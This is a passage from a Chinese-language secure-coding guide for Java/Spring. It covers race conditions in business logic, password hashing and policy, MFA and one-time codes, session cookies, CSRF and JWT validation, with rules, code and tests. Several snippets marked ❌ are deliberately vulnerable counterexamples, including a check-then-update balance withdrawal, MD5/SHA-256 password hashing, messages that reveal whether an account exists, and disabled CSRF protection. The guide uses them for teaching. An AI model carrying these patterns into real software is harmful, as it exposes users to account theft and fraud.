業務邏輯弱點無法由工具發現，因為程式碼在語法上完全正確，錯的是流程：可以跳過付款步驟直接確認訂單、可以重複使用一次性優惠券、兩個並行請求可以把同一筆餘額提領兩次。ASVS 5.0 以 V2.3「業務邏輯安全」與 V15.4「安全的並行處理」專門處理這類問題。

**檢查與使用之間的競爭（TOCTOU）**是最常見的並行弱點：程式先查詢餘額是否足夠，再扣款；兩個請求同時通過檢查後各自扣款，餘額就變成負數。防禦方式是讓「檢查」與「更新」成為同一個原子操作。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-GEN-012` | 必須 | 多步驟流程必須在伺服器端以狀態機驗證步驟順序；每個步驟都必須檢查前一個步驟已完成，不得只靠前端導頁控制流程 | 🧪 跳過步驟的測試；👁 程式碼審查 |
| `SCG-GEN-013` | 應該 | 高價值或易被濫用的操作（登入、註冊、寄送驗證碼、兌換優惠、查詢個資）應有防自動化措施：依使用者與來源的速率限制、單次使用的權杖、必要時加上人機驗證 | 🧪 速率限制測試（見 12.4） |
| `SCG-GEN-014` | 必須 | 「先檢查、後更新」的操作（扣款、扣庫存、兌換、狀態轉換）必須以單一原子操作完成：條件式 `UPDATE ... WHERE` 並檢查影響筆數、樂觀鎖版本欄位，或資料庫的唯一約束；不得以先 `SELECT` 再 `UPDATE` 的兩個步驟實作 | 🧪 並行測試（多執行緒同時執行） |

```java
// ✅ SCG-GEN-012：以狀態機限制轉換，任何不在表中的轉換都被拒絕
package com.example.scg.gen;

import java.util.Map;
import java.util.Set;

public enum OrderStatus {
    CREATED, PAID, SHIPPED, COMPLETED, CANCELLED;

    private static final Map<OrderStatus, Set<OrderStatus>> ALLOWED = Map.of(
            CREATED, Set.of(PAID, CANCELLED),
            PAID, Set.of(SHIPPED, CANCELLED),
            SHIPPED, Set.of(COMPLETED),
            COMPLETED, Set.of(),
            CANCELLED, Set.of());

    public OrderStatus transitionTo(OrderStatus next) {
        if (!ALLOWED.get(this).contains(next)) {
            throw new IllegalStateException("不允許的狀態轉換：" + this + " → " + next);
        }
        return next;
    }
}
```

```java
// ✅ SCG-GEN-012：測試不能從 CREATED 直接跳到 SHIPPED（跳過付款）
package com.example.scg.gen;

import static org.assertj.core.api.Assertions.assertThat;
import static org.assertj.core.api.Assertions.assertThatThrownBy;

import org.junit.jupiter.api.Test;

class OrderStatusTest {

    @Test
    void cannotSkipPayment() {
        assertThatThrownBy(() -> OrderStatus.CREATED.transitionTo(OrderStatus.SHIPPED))
                .isInstanceOf(IllegalStateException.class);
    }

    @Test
    void normalFlowIsAllowed() {
        assertThat(OrderStatus.CREATED.transitionTo(OrderStatus.PAID).transitionTo(OrderStatus.SHIPPED))
                .isEqualTo(OrderStatus.SHIPPED);
    }
}
```

```java
// ✅ SCG-GEN-013：寄送簡訊驗證碼的端點，依手機號碼與來源 IP 雙重限制（使用 12.4 的 RateLimiter）
@PostMapping("/api/otp")
public ResponseEntity<Void> sendOtp(@Valid @RequestBody OtpRequest req, HttpServletRequest http) {
    if (!rateLimiter.tryAcquire("otp:phone:" + req.phone(), 3, Duration.ofMinutes(10))
            || !rateLimiter.tryAcquire("otp:ip:" + http.getRemoteAddr(), 20, Duration.ofMinutes(10))) {
        return ResponseEntity.status(HttpStatus.TOO_MANY_REQUESTS).header("Retry-After", "600").build();
    }
    otpService.send(req.phone());
    return ResponseEntity.accepted().build();
}
```

（片段：Controller 方法。`rateLimiter` 的實作見 12.4。）

```sql
-- ❌ SCG-GEN-014：先查再扣，兩個並行交易都會看到 balance = 100，各自扣 80，結果 balance = 20 但提領了 160
SELECT balance FROM wallet WHERE id = 1;            -- 應用程式判斷 100 >= 80
UPDATE wallet SET balance = 20 WHERE id = 1;        -- 以應用程式算出的值覆寫
```

```sql
-- ✅ SCG-GEN-014：檢查與扣款在同一個條件式 UPDATE 中完成，影響筆數為 0 代表餘額不足
CREATE TABLE wallet (id bigint PRIMARY KEY, balance numeric(12,2) NOT NULL CHECK (balance >= 0));
INSERT INTO wallet VALUES (1, 100);

UPDATE wallet SET balance = balance - 80 WHERE id = 1 AND balance >= 80;   -- UPDATE 1
UPDATE wallet SET balance = balance - 80 WHERE id = 1 AND balance >= 80;   -- UPDATE 0：餘額不足，應用程式回報失敗
SELECT balance FROM wallet WHERE id = 1;                                    -- 20.00
```

```java
// ✅ SCG-GEN-014：以 JdbcClient 執行條件式更新，並檢查影響筆數
package com.example.scg.gen;

import java.math.BigDecimal;
import org.springframework.jdbc.core.simple.JdbcClient;
import org.springframework.stereotype.Repository;
import org.springframework.transaction.annotation.Transactional;

@Repository
public class WalletRepository {

    private final JdbcClient jdbc;

    public WalletRepository(JdbcClient jdbc) {
        this.jdbc = jdbc;
    }

    @Transactional
    public void withdraw(long walletId, BigDecimal amount) {
        if (amount.signum() <= 0) {
            throw new IllegalArgumentException("提領金額必須為正數");
        }
        int updated = jdbc.sql("UPDATE wallet SET balance = balance - :amount WHERE id = :id AND balance >= :amount")
                .param("amount", amount)
                .param("id", walletId)
                .update();
        if (updated != 1) {
            throw new IllegalStateException("餘額不足或錢包不存在");
        }
    }
}
```

#### 🔍 2.5 審查與驗證

- **自動檢查：** 業務邏輯弱點幾乎無法由 SAST 發現，必須靠測試。以 `ExecutorService` 同時送出 20 個提領請求，斷言成功次數不超過餘額允許的次數；以 API 直接呼叫流程的後段步驟，斷言回 409 或 400。
- **人工審查問題：**
  1. 流程中有沒有「前端控制下一步」的設計？伺服器端是否記錄並檢查目前步驟？
  2. 是否有「先 `SELECT` 判斷、再 `UPDATE` 寫入」的程式碼？兩者之間是否可能被其他交易插入？
  3. 一次性的東西（優惠券、驗證碼、重設密碼連結）是否在使用的同一個原子操作中被標記為已使用？
- **AI 常見錯誤：** 以 `if (wallet.getBalance() >= amount) wallet.setBalance(...)` 實作扣款；以 `synchronized` 處理多執行個體部署下的並行（只對單一 JVM 有效）；在 `@Transactional` 中先讀後寫而沒有鎖或版本欄位。

## 3. 身分驗證與工作階段

**優先使用集中式身分提供者（IdP）。** 企業系統應透過 OpenID Connect（Keycloak、Microsoft Entra ID 等）登入，讓密碼、多因子、帳號鎖定都由 IdP 集中處理。本章的規則適用於兩種情境：系統必須自行管理帳號密碼時（例如對外會員系統），以及系統作為 OAuth 用戶端或資源伺服器時。

### 3.1 密碼儲存與密碼政策

密碼不可加密儲存（加密可以被解密），而必須以**慢雜湊**儲存。慢雜湊刻意消耗大量運算與記憶體，讓攻擊者取得資料庫後無法快速暴力破解。MD5、SHA-1、SHA-256 等一般雜湊每秒可計算數十億次，**不得**用於密碼。

[NIST SP 800-63B-4](https://pages.nist.gov/800-63-4/sp800-63b.html)（2025-08）大幅修改了傳統的密碼政策觀念：

| 項目 | 過去常見的做法 | NIST SP 800-63B-4 的要求 |
| --- | --- | --- |
| 最短長度 | 8 碼 | 只用密碼登入時**至少 15 碼**；作為多因子之一時至少 8 碼 |
| 最長長度 | 常限制 16 或 20 碼 | 至少允許 64 碼 |
| 字元組成 | 必須含大小寫、數字、符號 | **不得**要求字元組成規則；應允許空白與所有可列印字元（含 Unicode） |
| 定期更換 | 每 90 天強制更換 | **不得**要求定期更換；只有在有外洩跡象時強制更換 |
| 外洩密碼 | 少有檢查 | **必須**比對已外洩、常見、與服務相關的密碼清單 |
| 密碼提示、安全問題 | 常見 | **不得**使用 |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-AUTH-001` | 必須 | 密碼必須以 Argon2id、scrypt、bcrypt 或 PBKDF2（依 OWASP 建議的參數）雜湊儲存，並透過 `DelegatingPasswordEncoder` 等可辨識演算法的格式儲存，以便日後升級；不得使用 MD5、SHA 系列一般雜湊、可逆加密或明文 | 🤖 Semgrep、FindSecBugs `WEAK_MESSAGE_DIGEST_MD5`；🧪 單元測試 |
| `SCG-AUTH-002` | 必須 | 密碼政策必須符合 NIST SP 800-63B-4：單一因子時最短 15 碼（多因子時 8 碼）、至少允許 64 碼、不設字元組成規則、不強制定期更換，並比對已外洩密碼清單 | 🧪 驗證測試；👁 程式碼審查 |
| `SCG-AUTH-003` | 必須 | 登入、註冊、忘記密碼的回應不得透露帳號是否存在：錯誤訊息一致（例如「帳號或密碼錯誤」），且帳號不存在時仍執行一次密碼雜湊比對，避免以回應時間推測 | 🧪 回應內容與時間的測試 |
| `SCG-AUTH-004` | 必須 | 必須防止暴力破解與撞庫：依帳號與來源 IP 限制連續失敗次數並逐步延遲；不得以「永久鎖定帳號」作為唯一手段（攻擊者可藉此鎖住所有帳號） | 🧪 連續失敗的測試 |

```java
// ✅ SCG-AUTH-001：以 DelegatingPasswordEncoder 儲存為 {argon2}... 格式；舊的 {bcrypt} 雜湊仍可驗證，登入成功時再升級
package com.example.scg.auth;

import java.util.Map;
import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;
import org.springframework.security.crypto.argon2.Argon2PasswordEncoder;
import org.springframework.security.crypto.bcrypt.BCryptPasswordEncoder;
import org.springframework.security.crypto.password.DelegatingPasswordEncoder;
import org.springframework.security.crypto.password.PasswordEncoder;

@Configuration
public class PasswordConfig {

    @Bean
    PasswordEncoder passwordEncoder() {
        Map<String, PasswordEncoder> encoders = Map.of(
                "argon2", Argon2PasswordEncoder.defaultsForSpringSecurity_v5_8(),   // Argon2id，需要 BouncyCastle
                "bcrypt", new BCryptPasswordEncoder(12));
        return new DelegatingPasswordEncoder("argon2", encoders);
    }
}
```

```java
// ✅ SCG-AUTH-001：測試新密碼以 argon2 儲存、舊的 bcrypt 雜湊仍可驗證並被標示為需要升級
package com.example.scg.auth;

import static org.assertj.core.api.Assertions.assertThat;

import org.junit.jupiter.api.Test;
import org.springframework.security.crypto.bcrypt.BCryptPasswordEncoder;

class PasswordConfigTest {

    private final org.springframework.security.crypto.password.PasswordEncoder encoder =
            new PasswordConfig().passwordEncoder();

    @Test
    void newPasswordsUseArgon2() {
        String hash = encoder.encode("correct horse battery staple");
        assertThat(hash).startsWith("{argon2}$argon2id$");
        assertThat(encoder.matches("correct horse battery staple", hash)).isTrue();
    }

    @Test
    void legacyBcryptStillVerifiesAndNeedsUpgrade() {
        String legacy = "{bcrypt}" + new BCryptPasswordEncoder(10).encode("legacy-password-2019");
        assertThat(encoder.matches("legacy-password-2019", legacy)).isTrue();
        assertThat(encoder.upgradeEncoding(legacy)).isTrue();
    }
}
```

```java
// ❌ SCG-AUTH-001：以 MD5 雜湊密碼，沒有鹽值，彩虹表可在數秒內還原常見密碼
String hash = DigestUtils.md5Hex(password);
// ❌ SCG-AUTH-001：SHA-256 加鹽仍然太快，一張 GPU 每秒可計算數十億次
String hash2 = DigestUtils.sha256Hex(salt + password);
```

（片段：錯誤的密碼雜湊。）

```java
// ✅ SCG-AUTH-002：符合 NIST SP 800-63B-4 的密碼政策，並以 k-anonymity 方式比對外洩密碼
package com.example.scg.auth;

import java.text.Normalizer;
import java.util.ArrayList;
import java.util.List;
import java.util.Locale;
import java.util.Set;
import org.springframework.security.authentication.password.CompromisedPasswordChecker;

public final class PasswordPolicy {

    public static final int MIN_LENGTH_SINGLE_FACTOR = 15;
    public static final int MIN_LENGTH_WITH_MFA = 8;
    public static final int MAX_LENGTH = 128;                     // 至少允許 64；上限是為了防止超長輸入耗盡運算

    private final CompromisedPasswordChecker compromised;         // 例如 HaveIBeenPwnedRestApiPasswordChecker
    private final Set<String> contextWords;                       // 服務名稱、公司名稱等

    public PasswordPolicy(CompromisedPasswordChecker compromised, Set<String> contextWords) {
        this.compromised = compromised;
        this.contextWords = contextWords;
    }

    public List<String> violations(String password, String username, boolean mfaEnabled) {
        List<String> v = new ArrayList<>();
        String p = Normalizer.normalize(password, Normalizer.Form.NFKC);
        int length = p.codePointCount(0, p.length());              // 以字元數計算，中文字也算一個字元
        int min = mfaEnabled ? MIN_LENGTH_WITH_MFA : MIN_LENGTH_SINGLE_FACTOR;
        if (length < min) {
            v.add("密碼長度至少 " + min + " 個字元");
        }
        if (length > MAX_LENGTH) {
            v.add("密碼長度不可超過 " + MAX_LENGTH + " 個字元");
        }
        String lower = p.toLowerCase(Locale.ROOT);
        if (lower.contains(username.toLowerCase(Locale.ROOT)) || contextWords.stream().anyMatch(lower::contains)) {
            v.add("密碼不可包含帳號或服務名稱");
        }
        if (compromised.check(p).isCompromised()) {
            v.add("此密碼曾出現在外洩資料中，請改用其他密碼");
        }
        return v;                                                   // 不檢查「必須含大寫、數字、符號」
    }
}
```

```java
// ❌ SCG-AUTH-002：字元組成規則與 8 碼下限。NIST 已明確禁止組成規則，它只會讓使用者選出 "Password1!" 這種密碼
@Pattern(regexp = "^(?=.*[a-z])(?=.*[A-Z])(?=.*\\d)(?=.*[@$!%*?&])[A-Za-z\\d@$!%*?&]{8,16}$")
private String password;
```

（片段：v2.0 曾使用的錯誤規則，已在 v3.0 修正，見附錄 F.1。）

```java
// ✅ SCG-AUTH-003：帳號不存在時仍執行一次雜湊比對，讓回應時間一致；錯誤訊息不區分原因
package com.example.scg.auth;

import java.util.Optional;
import org.springframework.security.crypto.password.PasswordEncoder;

public final class LoginService {

    public interface UserStore {
        Optional<String> passwordHashOf(String username);
    }

    public static final String GENERIC_ERROR = "帳號或密碼錯誤";

    private final UserStore users;
    private final PasswordEncoder encoder;
    private final String dummyHash;

    public LoginService(UserStore users, PasswordEncoder encoder) {
        this.users = users;
        this.encoder = encoder;
        this.dummyHash = encoder.encode("dummy-password-for-timing-equalization");
    }

    public void authenticate(String username, String password) {
        Optional<String> hash = users.passwordHashOf(username);
        boolean ok = encoder.matches(password, hash.orElse(dummyHash));   // 不論帳號是否存在都做一次慢雜湊
        if (hash.isEmpty() || !ok) {
            throw new BadCredentials(GENERIC_ERROR);
        }
    }

    public static final class BadCredentials extends RuntimeException {
        private static final long serialVersionUID = 1L;

        public BadCredentials(String message) {
            super(message);
        }
    }
}
```

```java
// ❌ SCG-AUTH-003：不同的錯誤訊息讓攻擊者能列舉出哪些帳號存在
if (user == null) {
    return ResponseEntity.status(401).body("查無此帳號");
}
if (!encoder.matches(password, user.getPasswordHash())) {
    return ResponseEntity.status(401).body("密碼錯誤");
}
```

（片段：帳號列舉的反例。）

```java
// ✅ SCG-AUTH-004：依帳號計算連續失敗次數並逐步延遲（不永久鎖定）；依來源 IP 的限制見 12.4
package com.example.scg.auth;

import java.time.Clock;
import java.time.Duration;
import java.time.Instant;
import java.util.concurrent.ConcurrentHashMap;
import java.util.concurrent.ConcurrentMap;

public final class LoginThrottle {

    private record State(int failures, Instant blockedUntil) { }

    private final ConcurrentMap<String, State> states = new ConcurrentHashMap<>();   // 正式環境改用 Redis 等共享儲存
    private final Clock clock;

    public LoginThrottle(Clock clock) {
        this.clock = clock;
    }

    /** 回傳還要等多久才能再試；Duration.ZERO 表示可以嘗試。 */
    public Duration waitTime(String username) {
        State s = states.get(username);
        if (s == null || s.blockedUntil() == null) {
            return Duration.ZERO;
        }
        Duration d = Duration.between(clock.instant(), s.blockedUntil());
        return d.isNegative() ? Duration.ZERO : d;
    }

    public void onFailure(String username) {
        states.compute(username, (k, s) -> {
            int failures = (s == null ? 0 : s.failures()) + 1;
            // 5 次以內不延遲；之後 1、2、4、8… 分鐘，最多 60 分鐘
            Instant until = failures <= 5 ? null
                    : clock.instant().plus(Duration.ofMinutes(Math.min(60, 1L << Math.min(6, failures - 6))));
            return new State(failures, until);
        });
    }

    public void onSuccess(String username) {
        states.remove(username);
    }
}
```

```java
// ✅ SCG-AUTH-004：測試第 6 次失敗後必須等待，成功登入後重置
package com.example.scg.auth;

import static org.assertj.core.api.Assertions.assertThat;

import java.time.Clock;
import java.time.Duration;
import java.time.Instant;
import java.time.ZoneOffset;
import org.junit.jupiter.api.Test;

class LoginThrottleTest {

    @Test
    void delaysAfterFiveFailuresAndResetsOnSuccess() {
        var throttle = new LoginThrottle(Clock.fixed(Instant.parse("2026-10-08T00:00:00Z"), ZoneOffset.UTC));
        for (int i = 0; i < 5; i++) {
            throttle.onFailure("alice");
        }
        assertThat(throttle.waitTime("alice")).isZero();
        throttle.onFailure("alice");
        assertThat(throttle.waitTime("alice")).isEqualTo(Duration.ofMinutes(1));
        throttle.onSuccess("alice");
        assertThat(throttle.waitTime("alice")).isZero();
    }
}
```

#### 🔍 3.1 審查與驗證

- **自動檢查：** 資料庫中密碼欄位的值必須以 `{argon2}`、`{bcrypt}` 等前綴開頭（可用 SQL 抽查 `SELECT count(*) FROM users WHERE password_hash NOT LIKE '{%'`）；FindSecBugs `WEAK_MESSAGE_DIGEST_MD5`、`WEAK_MESSAGE_DIGEST_SHA1`；Semgrep `p/default` 的弱雜湊規則。
- **人工審查問題：**
  1. 密碼政策是否還有「必須包含大寫、數字、符號」或「每 90 天更換」？
  2. 「忘記密碼」與「註冊」的回應，是否會因帳號是否存在而不同？
  3. 失敗次數是存在單一 JVM 的記憶體中嗎？多個執行個體時是否共享？
- **AI 常見錯誤：** 以 `MessageDigest.getInstance("SHA-256")` 雜湊密碼；產生 v2.0 那種組成規則的正規表示式；登入失敗訊息區分「帳號不存在」與「密碼錯誤」；BCrypt 輸入超過 72 位元組會被截斷卻未限制長度（Spring Security 的 `BCryptPasswordEncoder` 會在超過時拋出例外，自行實作的程式則不一定）。

### 3.2 多因子驗證與通行金鑰

多因子驗證（MFA）是防止撞庫與釣魚的最有效手段。NIST SP 800-63B-4 與 CISA 都建議優先採用**抗釣魚**的驗證方式：通行金鑰（Passkeys，以 WebAuthn／FIDO2 為基礎）與硬體安全金鑰。簡訊與 Email 驗證碼容易被 SIM 卡挾持與釣魚網站轉送，只應作為備援。

Spring Security 7 內建多因子支援：每種驗證方式成功後會加上一個 `FactorGrantedAuthority`（例如 `FACTOR_PASSWORD`、`FACTOR_WEBAUTHN`），授權規則可以要求同時具備多個因子。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-AUTH-005` | 必須 | 管理功能、大額交易與個資匯出等敏感操作必須要求多因子驗證；ASVS L3 系統的所有使用者都必須使用多因子；應優先採用通行金鑰（WebAuthn）等抗釣魚的因子 | 🧪 只有密碼因子時存取管理功能被拒的測試 |
| `SCG-AUTH-006` | 必須 | 一次性驗證碼（OTP、Email 連結、簡訊碼）必須以安全亂數產生、只能使用一次、有效期間不超過 10 分鐘、限制嘗試次數，並以固定時間比較 | 🧪 單元測試（重複使用、過期、錯誤次數） |

```java
// ✅ SCG-AUTH-005：Spring Security 7 的多因子授權：管理功能要求「密碼＋通行金鑰」兩個因子
package com.example.scg.auth;

import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;
import org.springframework.security.config.Customizer;
import org.springframework.security.config.annotation.web.builders.HttpSecurity;
import org.springframework.security.core.authority.FactorGrantedAuthority;
import org.springframework.security.web.SecurityFilterChain;

@Configuration
public class AdminMfaSecurityConfig {

    @Bean
    SecurityFilterChain admin(HttpSecurity http) throws Exception {
        http
            .securityMatcher("/admin/**")
            .authorizeHttpRequests(auth -> auth
                .anyRequest().hasAllAuthorities(
                        FactorGrantedAuthority.PASSWORD_AUTHORITY,
                        FactorGrantedAuthority.WEBAUTHN_AUTHORITY))
            .formLogin(Customizer.withDefaults());
        return http.build();
    }
}
```

（Passkey 的註冊與登入設定見 [Spring Security Passkeys 文件](https://docs.spring.io/spring-security/reference/servlet/authentication/passkeys.html)，需要 `spring-security-webauthn` 與 `webauthn4j-core` 相依套件。）

```java
// ✅ SCG-AUTH-006：一次性驗證碼：SecureRandom 產生、只存雜湊、10 分鐘到期、最多 5 次、用後即刪、固定時間比較
package com.example.scg.auth;

import java.nio.charset.StandardCharsets;
import java.security.MessageDigest;
import java.security.NoSuchAlgorithmException;
import java.security.SecureRandom;
import java.time.Clock;
import java.time.Duration;
import java.time.Instant;
import java.util.concurrent.ConcurrentHashMap;
import java.util.concurrent.ConcurrentMap;

public final class OtpService {

    private static final Duration TTL = Duration.ofMinutes(10);
    private static final int MAX_ATTEMPTS = 5;
    private static final SecureRandom RANDOM = new SecureRandom();

    private record Pending(byte[] hash, Instant expiresAt, int attempts) { }

    private final ConcurrentMap<String, Pending> pending = new ConcurrentHashMap<>();
    private final Clock clock;

    public OtpService(Clock clock) {
        this.clock = clock;
    }

    public String issue(String subject) {
        String code = String.format("%06d", RANDOM.nextInt(1_000_000));
        pending.put(subject, new Pending(sha256(code), clock.instant().plus(TTL), 0));
        return code;                                  // 交給簡訊／Email 寄送，不得寫入日誌
    }

    public boolean verify(String subject, String code) {
        Pending p = pending.get(subject);
        if (p == null || clock.instant().isAfter(p.expiresAt()) || p.attempts() >= MAX_ATTEMPTS) {
            pending.remove(subject);
            return false;
        }
        if (MessageDigest.isEqual(p.hash(), sha256(code))) {
            return pending.remove(subject, p);       // 原子地移除：同一個碼只能成功一次
        }
        pending.computeIfPresent(subject, (k, old) -> new Pending(old.hash(), old.expiresAt(), old.attempts() + 1));
        return false;
    }

    private static byte[] sha256(String s) {
        try {
            return MessageDigest.getInstance("SHA-256").digest(s.getBytes(StandardCharsets.UTF_8));
        } catch (NoSuchAlgorithmException e) {
            throw new IllegalStateException(e);
        }
    }
}
```

```java
// ✅ SCG-AUTH-006：測試只能使用一次、錯誤 5 次後作廢、過期後無效
package com.example.scg.auth;

import static org.assertj.core.api.Assertions.assertThat;

import java.time.Clock;
import java.time.Duration;
import java.time.Instant;
import java.time.ZoneOffset;
import org.junit.jupiter.api.Test;

class OtpServiceTest {

    @Test
    void codeCanBeUsedOnlyOnce() {
        var otp = new OtpService(Clock.systemUTC());
        String code = otp.issue("alice");
        assertThat(otp.verify("alice", code)).isTrue();
        assertThat(otp.verify("alice", code)).isFalse();
    }

    @Test
    void invalidatedAfterFiveWrongAttempts() {
        var otp = new OtpService(Clock.systemUTC());
        String code = otp.issue("alice");
        String wrong = code.equals("000000") ? "000001" : "000000";
        for (int i = 0; i < 5; i++) {
            assertThat(otp.verify("alice", wrong)).isFalse();
        }
        assertThat(otp.verify("alice", code)).isFalse();
    }

    @Test
    void expiresAfterTenMinutes() {
        var clock = new MutableClock(Instant.parse("2026-10-08T00:00:00Z"));
        var otp = new OtpService(clock);
        String code = otp.issue("alice");
        clock.advance(Duration.ofMinutes(11));
        assertThat(otp.verify("alice", code)).isFalse();
    }

    /** 測試用的可推進時鐘。 */
    static final class MutableClock extends Clock {
        private Instant now;

        MutableClock(Instant start) {
            this.now = start;
        }

        void advance(Duration d) {
            now = now.plus(d);
        }

        @Override
        public ZoneOffset getZone() {
            return ZoneOffset.UTC;
        }

        @Override
        public Clock withZone(java.time.ZoneId zone) {
            return this;
        }

        @Override
        public Instant instant() {
            return now;
        }
    }
}
```

#### 🔍 3.2 審查與驗證

- **自動檢查：** 以 `@WithMockUser(authorities = "FACTOR_PASSWORD")` 呼叫管理 API 必須回 403；附錄 B.1 的 Semgrep 規則 `scg-insecure-random` 找出以 `java.util.Random`、`Math.random()` 產生驗證碼的程式。
- **人工審查問題：**
  1. 驗證碼是否以明文存在資料庫或日誌中？
  2. 驗證成功後，驗證碼是否在同一個原子操作中被作廢（避免並行請求重複使用）？
  3. 「記住這台裝置」的權杖是否有到期日，並在變更密碼後失效？
- **AI 常見錯誤：** 以 `new Random().nextInt(999999)` 產生驗證碼；以 `code.equals(input)` 比較；驗證碼沒有嘗試次數上限（6 位數驗證碼在 10 分鐘內可被暴力嘗試完）。

### 3.3 工作階段（Session）管理

以 Cookie 保存 Session ID 的系統，必須確保 Session ID 無法被猜測、竊取或固定（session fixation），並在適當時機失效。

| Cookie 屬性 | 作用 | 建議值 |
| --- | --- | --- |
| `Secure` | 只在 HTTPS 傳送 | 必須 |
| `HttpOnly` | JavaScript 無法讀取，降低 XSS 竊取的風險 | 必須（Session Cookie） |
| `SameSite` | 跨站請求是否帶上 Cookie，降低 CSRF 風險 | `Lax`（預設）；不需跨站導回的系統用 `Strict` |
| `__Host-` 名稱前綴 | 強制 `Secure`、`Path=/`、不得設定 `Domain`，防止子網域覆寫 Cookie | 建議 |
| `Domain` | 指定可接收的網域 | 不設定（只送回原主機） |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-AUTH-007` | 必須 | 登入成功、權限提升（例如完成多因子）時必須更換 Session ID；登出時必須在伺服器端使 Session 失效並清除 Cookie | 🧪 登入前後 Session ID 不同的測試 |
| `SCG-AUTH-008` | 必須 | Session Cookie 必須設定 `Secure`、`HttpOnly`、`SameSite`；應使用 `__Host-` 前綴且不設定 `Domain` | 🤖 ZAP 被動掃描 `10010`、`10011`、`10054`；🧪 回應標頭測試 |
| `SCG-AUTH-009` | 必須 | Session 必須有閒置逾時與絕對逾時：一般系統閒置 30 分鐘、絕對 8–12 小時；高風險系統（ASVS L3）閒置 15 分鐘 | 🧪 逾時測試；👁 設定審查 |
| `SCG-AUTH-010` | 必須 | 以 Cookie 驗證身分的系統必須啟用 CSRF 防護（同步權杖或雙重提交 Cookie），不得為了方便而關閉；只有完全以 `Authorization` 標頭傳遞權杖、且不使用 Cookie 驗證的 API 可以不啟用 | 🤖 Semgrep `spring-csrf-disabled`；🧪 不帶 CSRF 權杖的請求回 403 |

```yaml
# ✅ SCG-AUTH-008、SCG-AUTH-009：Spring Boot 的 Session Cookie 與閒置逾時
server:
  servlet:
    session:
      timeout: 30m
      cookie:
        name: __Host-SESSION
        secure: true
        http-only: true
        same-site: lax
        path: /
```

```java
// ✅ SCG-AUTH-009：絕對逾時。Servlet 容器只支援閒置逾時，絕對逾時需以 Filter 檢查建立時間
package com.example.scg.auth;

import jakarta.servlet.FilterChain;
import jakarta.servlet.ServletException;
import jakarta.servlet.http.HttpServletRequest;
import jakarta.servlet.http.HttpServletResponse;
import jakarta.servlet.http.HttpSession;
import java.io.IOException;
import java.time.Duration;
import org.springframework.web.filter.OncePerRequestFilter;

public class AbsoluteSessionTimeoutFilter extends OncePerRequestFilter {

    private final long maxAgeMillis;

    public AbsoluteSessionTimeoutFilter(Duration maxAge) {
        this.maxAgeMillis = maxAge.toMillis();
    }

    @Override
    protected void doFilterInternal(HttpServletRequest req, HttpServletResponse res, FilterChain chain)
            throws ServletException, IOException {
        HttpSession session = req.getSession(false);
        if (session != null && System.currentTimeMillis() - session.getCreationTime() > maxAgeMillis) {
            session.invalidate();
            res.sendError(HttpServletResponse.SC_UNAUTHORIZED);
            return;
        }
        chain.doFilter(req, res);
    }
}
```

```java
// ✅ SCG-AUTH-007、SCG-AUTH-010：表單登入的網站。Session 固定防護（預設 changeSessionId）、登出使 Session 失效、CSRF 預設啟用
package com.example.scg.auth;

import java.time.Duration;
import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;
import org.springframework.core.annotation.Order;
import org.springframework.security.config.Customizer;
import org.springframework.security.config.annotation.web.builders.HttpSecurity;
import org.springframework.security.web.SecurityFilterChain;
import org.springframework.security.web.session.SessionManagementFilter;

@Configuration
public class WebSessionSecurityConfig {

    @Bean
    @Order(10)
    SecurityFilterChain web(HttpSecurity http) throws Exception {
        http
            .authorizeHttpRequests(auth -> auth
                .requestMatchers("/login", "/css/**").permitAll()
                .anyRequest().authenticated())
            .formLogin(form -> form.loginPage("/login"))
            .sessionManagement(s -> s
                .sessionFixation(f -> f.changeSessionId())
                .maximumSessions(3))
            .logout(logout -> logout
                .logoutUrl("/logout")
                .invalidateHttpSession(true)
                .deleteCookies("__Host-SESSION"))
            .csrf(Customizer.withDefaults())          // 預設啟用；SPA 改用 csrf.spa()，見下例
            .addFilterBefore(new AbsoluteSessionTimeoutFilter(Duration.ofHours(8)), SessionManagementFilter.class);
        return http.build();
    }
}
```

```java
// ✅ SCG-AUTH-010：同網域的 SPA（Vue／Angular／React）使用 Cookie Session 時，以 csrf.spa() 讓前端讀取 XSRF-TOKEN Cookie
http.csrf(csrf -> csrf.spa());
// ❌ SCG-AUTH-010：因為「前端送不出 CSRF 權杖」就關閉 CSRF 防護
http.csrf(csrf -> csrf.disable());
```

（片段：CSRF 設定。Angular 的 `HttpClient` 與 Axios 預設會讀取 `XSRF-TOKEN` Cookie 並送出 `X-XSRF-TOKEN` 標頭。）

#### 🔍 3.3 審查與驗證

- **自動檢查：** ZAP 被動掃描規則 `10010`（Cookie 缺少 HttpOnly）、`10011`（缺少 Secure）、`10054`（缺少 SameSite）；Semgrep `java.spring.security.audit.spring-csrf-disabled`；整合測試斷言登入前後 `JSESSIONID`／`__Host-SESSION` 不同，以及不帶權杖的 `POST` 回 403。
- **人工審查問題：**
  1. 有沒有任何 `csrf.disable()` 或 `ignoringRequestMatchers(...)`？被排除的端點是否真的不使用 Cookie 驗證？
  2. 登出時是否只刪除了前端的 Cookie，而伺服器端 Session 仍然有效？
  3. 變更密碼、停用帳號時，是否會使該使用者的其他 Session 失效？
- **AI 常見錯誤：** 遇到 403 就加上 `csrf.disable()`；Session 逾時設成數天；Cookie 設定 `Domain=.example.com` 讓所有子網域都能收到。

### 3.4 權杖、JWT 與 OAuth 2.0

JWT 是自帶內容的權杖：資源伺服器不查詢資料庫，只驗證簽章與宣告（claims）就信任它。因此**驗證的每一個步驟都不能省略**，否則攻擊者可以自行簽發或竄改權杖。

| JWT 驗證步驟 | 若省略會發生什麼事 |
| --- | --- |
| 簽章，且演算法限制在允許清單（例如只接受 `RS256`、`ES256`） | 接受 `alg: none` 的未簽章權杖；或以公鑰當作 HMAC 密鑰的「演算法混淆」攻擊 |
| `iss`（簽發者） | 接受其他 IdP 或其他租戶簽發的權杖 |
| `aud`（受眾） | 發給 A 系統的權杖可以拿來呼叫 B 系統 |
| `exp`、`nbf`（有效期間） | 過期的權杖永遠有效 |
| 權杖類型（`typ`，例如 `at+jwt`） | ID Token 被當作 Access Token 使用 |

